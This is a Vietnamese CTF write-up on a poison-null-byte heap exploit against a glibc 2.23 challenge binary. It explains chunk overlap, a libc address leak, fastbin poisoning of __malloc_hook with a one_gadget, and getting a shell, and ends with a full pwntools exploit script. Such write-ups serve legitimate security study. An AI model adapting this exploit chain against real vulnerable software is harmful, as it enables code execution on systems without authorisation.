








# Heap_Exploit - Heap4

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pwn5_null_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 3.2.0, BuildID[sha1]=9f1740b42bc97cb470a75e9386d7fb64867795d3, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'.'
```

Vì ở hàm deleteHeap() set giá trị null cho con trỏ đến heap 

-> Không thể Use-after-free, double-free.



Tiếp đến chạy thử chương trình:



Ở đây chúng ta có 5 options sử dụng heap, mà tên file là `pwn5_null` 

-> `Poison_Null_Byte`

# 2. Khai thác

- Bước 1: Tạo 4 chunk 

```
create(0,0x88,b"\x00")              #CHUNK0 dùng để overflow size chunk1
create(1,0x208,b"\x00")             #CHUNK1 chunk này có size có giá trị > 0xff để owverflow null byte vào byte cuối
create(2,0x88,b"\x00")              #CHUNK2 chunk ở đây là overlapping memory
create(3,0x12,b"\x00")              #CHUNK3 tránh chunk2 bị gộp với top_chunk khi ta giải phóng nó.
```

- Bước 2: Giải phóng chunk_1 và tạo thành 2 chunk bé bên trong chunk 1 để kiểm soát con trỏ trong unsortedbin

```
free(1)
edit(0,0x88,p8(0)*0x88)
```

Sau khi free(1) và overflow chunk_0 thì chunk_1 của chúng ta sẽ như sau:



Có thể thấy size chunk_1 đã bị biến đổi từ `0x211` -> `0x200`

Kế đến tạo 2 chunk với chunk size = `0x100`

```
create(1,0xf8,b"\x00"*8)#CHUNK1a
create(4,0xf8,b"\x00"*8)#CHUNK1b
```



Ok nhưng nhìn vào chunk_2 khi đó:


Size chunk_2 = 0x90 mà khi đó chunk_4 vừa tạo đã được sử dụng. 

Tiếp theo, ta free chunk_1 và chunk_2

```
free(1)
free(2)
```

Nhìn vào heap khi ấy:



Nếu chúng ta giải phóng chunk_1 và sau đó giải phóng chunk_2, malloc sẽ bị nhầm lẫn rằng chunk_4 không được sử dụng và nó sẽ kết hợp chunk_1 với chunk_2, trong đó có cả chunk_4.

Tuy nhiên, chunk_4 chưa được free() nên chúng ta có thể kiểm soát được nó. Đó là lý do vì sao chunk_1 có size = `0x2a1` là tổng của size chunk_1 = `0x210` và chunk_2 = `0x90`

Kế đến, tạo 1 chunk với size sao cho giảm giá trị của unsortedbin đi 0x100 và từ đó đẩy địa chỉ `main_arena+88` xuống chunk_4'data để leak được địa chỉ libc

```
create(1,0xf8,b"a"*0xf7)#CHUNK1a
show(4)
p.recvuntil(b"Data = ")
leak=int.from_bytes(p.recv(6),"little")
libc=leak-0x39bb78
print("Libc_base: ",hex(libc))
malloc_hook=libc+0x39bb10
print("Malloc_hook: ",hex(malloc_hook))
one_gadget=libc+0x3f42a
print("Og_hook: ",hex(one_gadget))
```

- Bước 3: Ghi đè one_gadget vào địa chỉ malloc_hook

Ở trước đó ta đã có size chunk_2 = `0x90` có nghĩa chunk trước không được sử dụng

=> lợi dụng điều này để ghi vào chunk_4

```
create(5,0x68,b"b"*0x67)
free(5)
```

Khi này ta sẽ có địa chỉ chunk_5 trong fast_bin

Và tại fastbin lúc này sẽ chỉ đến phần data của chunk_4 nên ta chỉ việc edit(4): 

```
edit(4,0x68,p64(malloc_hook-35))
```



Và thế là ta đã có 1 chuỗi dslk tại fastbin size `0x70` 

Tiếp đến chúng ta tạo 1 chunk rác và 1 chunk để sửa `malloc_hook-0x23`

```
create(5,0x68,b"\x00")
create(6,0x68,b"a"*19+p64(one_gadget))
```

Vì sao phải sử dụng `malloc_hook-35`?

Bời vì khi chúng ta đến bước tạo chunk_6, nó yêu cầu địa chỉ đầu trong fastbin khi ấy phải là 1 chunk hợp lệ có size là 0x7x 



Và chúng ta sẽ ghi đề b"a"*19 để phần còn lại ghi vào `malloc_hook`.

Oke vậy là `malloc_hook` đã chứa địa chỉ của `one_gadget`.

Kế đến chúng ta free  1 chunk để dẫn đến lỗi

```
free(4)
free(6)
```

Chunk_4 chứa địa chỉ `malloc_hook-0x23` và khi free nó đi rồi thì sẽ mất địa chỉ lưu trữ `b"a"*19+p64(one_gadget)` của chunk_6

=> khi free(6) sẽ bị lỗi và lấy được shell



# Full code:

```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pwn5_null_patched', checksec=False)

p = process("./pwn5_null_patched")

#gdb.attach(p, gdbscript='''
#vis
#''')

def create(idx,size,data):
    p.sendafter(b">\n",b"1")
    p.sendafter(b"Index:",str(idx))
    p.sendafter(b"Input size:",str(size))
    p.sendafter(b"Input data:",data)

def show(idx):
    p.sendafter(b">\n",b"2")
    p.sendafter(b"Index:",str(idx))

def edit(index,newsize,data):
    p.sendafter(b">\n",b"3")
    p.sendafter(b"Input index:",str(index))
    p.sendlineafter(b"Input newsize:",str(newsize))
    p.sendlineafter(b"Do you want to change data (y/n)?\n",b"y")
    p.sendlineafter(b"Input data:",data)

def free(idx):
    p.sendafter(b">\n",b"4")
    p.sendafter(b"Input index:",str(idx))
  
    
create(0,0x88,b"\x00")
create(1,0x208,b"\x00")
create(2,0x88,b"\x00")
create(3,0x12,b"\x00")

free(1)
edit(0,0x88,p8(0)*0x88)
create(1,0xf8,b"\x00"*8)
create(4,0xf8,b"\x00"*8)
free(1)
free(2)

create(1,0xf8,b"a"*0xf7)
show(4)
p.recvuntil(b"Data = ")
leak=int.from_bytes(p.recv(6),"little")
libc=leak-0x39bb78
print("Libc_base: ",hex(libc))
malloc_hook=libc+0x39bb10
print("Malloc_hook: ",hex(malloc_hook-35))
one_gadget=libc+0x3f42a
print("Og_hook: ",hex(one_gadget))

create(5,0x68,b"b"*0x67)
free(5)
edit(4,0x68,p64(malloc_hook-35))
create(5,0x68,b"B")
create(6,0x68,b"B"*19+p64(one_gadget))
free(4)
free(6)

p.interactive()
```


